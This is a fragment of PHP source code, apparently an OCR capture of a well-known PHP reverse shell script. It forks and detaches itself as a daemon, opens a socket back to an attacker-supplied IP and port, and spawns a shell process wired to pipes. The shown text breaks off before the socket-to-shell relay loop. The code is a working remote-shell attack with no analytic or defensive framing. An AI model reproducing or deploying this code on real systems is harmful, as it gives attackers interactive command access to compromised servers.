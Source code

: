 ```
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
```